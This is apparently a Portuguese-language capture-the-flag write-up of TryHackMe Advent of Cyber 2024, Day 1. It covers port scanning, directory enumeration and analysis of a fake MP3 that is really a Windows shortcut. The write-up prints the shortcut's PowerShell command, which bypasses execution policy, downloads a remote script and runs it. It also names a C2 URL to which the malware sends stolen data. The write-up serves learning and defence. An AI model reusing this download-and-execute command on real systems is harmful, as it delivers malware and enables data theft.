 # Advent-of-Cyber-2024-THM
![image](https://github.com/user-attachments/assets/04709f1d-900f-4a3e-9952-d24ccf24caf3)

Tarefa 7

Segurança operaciona

Dia 1: Talvez a música do SOC-mas, ele pensou, não venha de uma loja?

PASSO A PASSO PARA A RESOLUÇÃO DAS QUESTÕES:

Executei o Nmap para escanear as portas que estavam abertas, o resultado mostrou 3 portas:
Porta 22 (SSH)
Porta 80 (HTTP)
Porta 8000 (HTTP-alt)



![image](https://github.com/user-attachments/assets/c7d43844-fdc9-454a-b562-953a2924df0f)


Em seguida enumerei os diretórios do webserver com o Gobuster, o que me mostrou o diretório /download estando disponivel



![image](https://github.com/user-attachments/assets/947a076f-b968-4f0e-a30b-a28302a3e680)



Acesse o diretório como http://IP_DA_MAQUINA/download, assim ele já faz download do arquivo zip denominado download.zip.


![image](https://github.com/user-attachments/assets/994d2165-81f4-4ee3-825c-79bc170fdae2)


Descompacte o arquivo zip, e lá conterá dois arquivos .mp3, sendo eles song.mp3 e somg.mp3

Utilizando o comando file song.mp3 eu identifiquei o arquivo como sendo um áudio em formato MPEG ADTS se trata realmente de um arquivo de musica, não tem nada de suspeito nele.
![image](https://github.com/user-attachments/assets/1d3396c9-3635-49b9-bcf2-8a1d47a8f7f8)


Mas temos um arquivo disfarçado sendo o segundo arquivo chamado de somg.mp3, a primeira vista também pode parecer suspeito por ter um erro de ortografia. mas iremos analisar a fundo esse arquivo.
Utilizei o comando file somg.mp3 identifiquei como um atalho LNK ao inves de um arquivo de audio, que apontava para o powershell.exe. iremos nos apronfundar muito mais.
![image](https://github.com/user-attachments/assets/4b9fb32d-e983-4834-9a9b-7282d912d88b)


Usei exiftool somg.mp3, para obter informações mais detalhadas sobre o atalho, e o arquivo apontava para um comando PowerShell, que baixava e executava um script localizado no GitHub, sendo o comando:
powershell.exe -ep bypass -nop -c (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1')


![image](https://github.com/user-attachments/assets/fdf7380b-cde3-42af-8c72-8a3699b23b60)











RESPONDENDO A 1ª PERGUNTA
![image](https://github.com/user-attachments/assets/45ce33f5-bab7-4c73-b64f-6bede4101ee0)
Eu também usei o exiftool no arquivo song.mp3, confirmando que ele era realmente um arquivo MP3 e obtendo a informação da 1ª pergunta da TAREFA 7, sendo o Artista: Tyler Ramsbey
![image](https://github.com/user-attachments/assets/9eb60ee0-4281-454e-90bd-57aed094c6fa)







RESPODENDO A 2ª PERGUNTA
![image](https://github.com/user-attachments/assets/84059020-f16f-4cc7-9b70-8812c1ed0da0)
Você executou o comando exiftool somg.mp3, copie o link, e cole no navegador, e analise o conteúdo, e que responde nossa pergunta está na função Send-InfoToC2Server que envia as informações roubadas para um servidor C2 (Command and Control) usando um comando Invoke-WebRequest. O servidor C2 especificado está localizado na URL http://papash3ll.thm/data.
![image](https://github.com/user-attachments/assets/e8316db0-ac58-46a6-a9ad-d1b66e6df77c)
![image](https://github.com/user-attachments/assets/29092bbb-e21b-436d-a9fe-cb63d0b974d1)









RESPONDENDO A 3ª PERGUNTA
![image](https://github.com/user-attachments/assets/835e0920-5b9c-4cdd-8428-0b45d7d59e8b)
Fácil, Fácil. 
https://github.com/MM-WarevilleTHM/M.M









RESPONDENDO A 4ª PERGUNTA
![image](https://github.com/user-attachments/assets/801d6509-2a73-4f99-be85-e1e059fe6fd4)
https://github.com/Bloatware-WarevilleTHM/CryptoWallet-Search/commit/e2a7aea21f07f52ebdc7d9c1edfa7ac546f7406d
![image](https://github.com/user-attachments/assets/e1337464-cacd-4403-8ac9-a0f31e70b02f)



----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

Tarefa 8

Análise de log

Dia 2: O falso positivo de um homem é a miscelânea de outro.


